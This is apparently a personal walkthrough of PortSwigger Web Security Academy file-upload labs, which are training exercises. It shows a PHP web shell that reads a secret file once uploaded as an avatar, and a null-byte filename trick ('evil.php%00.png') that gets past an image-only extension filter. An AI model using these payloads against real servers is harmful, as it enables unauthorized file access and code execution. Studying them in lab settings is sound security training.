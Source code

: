 # File upload vulnerabilities

Get details at [here](https://portswigger.net/web-security/file-upload)

Type of file upload vulnerabilities attack:
 - Malicious Files
 - Public File Retrieval 

---

[Lab 1](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Description of this lab: log in to your own account using the following credentials: wiener:peter, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner

Using this PHP script to make file evil.php

```php
    <?php 
        echo file_get_contents('/home/carlos/secret'); 
    ?>
```

Log in with wiener:peter, uploading evil.php at upload avatar. After uploading file, modify URL like `example.com/files/avatars/evil.php`, see its response `zSkiPK4JTu7lRHsDH7P0ExrgGoWZnDsr`. Go back home and submit secret, and solved the lab.

[Lab 2](#)

[Lab 3](#)

[Lab 4](#)

[Lab 5](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

Description of this lab: obfuscation technique to bypass defense (only upload JPG or PNG file)

It seems has filtered extension name of uploaded file, do the same as lab 1, but we need to change file name to `evil.php%00.png` (%00 meaning null (NUL in ASCII), when file is uploaded, system can not understand this, then it removes part after %00, then file name will be evil.php). We got secret `rakmOG0R8Z69H8eQEahqObm8nuSsf3r7`, go back home and submit, then solved the lab.